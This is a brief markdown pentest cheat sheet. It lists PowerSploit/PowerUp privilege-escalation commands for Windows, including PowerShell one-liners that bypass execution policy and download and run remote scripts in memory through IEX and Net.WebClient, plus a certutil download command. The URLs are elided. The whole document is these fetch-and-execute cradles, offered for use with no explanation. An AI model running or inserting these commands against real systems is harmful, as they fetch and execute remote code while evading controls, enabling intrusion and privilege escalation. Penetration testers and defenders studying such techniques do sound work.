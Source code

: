 # Helpful pentest commands

## [PayloadsAllTheThings - Methodology and Resources](https://github.com/cerberusec/PayloadsAllTheThings/tree/master/Methodology%20and%20Resources)

## Powersploit

* powershell -exec bypass -c "Import-Module .\Privesc; Invoke-AllChecks"

#### Download In-Memory:

* powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://.../PowerUp.ps1'); Invoke-AllChecks"

## Simple Download:

* certutil -urlcache -split -f "http://..."

* IEX (New-Object Net.WebClient).DownloadString('http://.../PowerUp.ps1'); Invoke-AllChecks
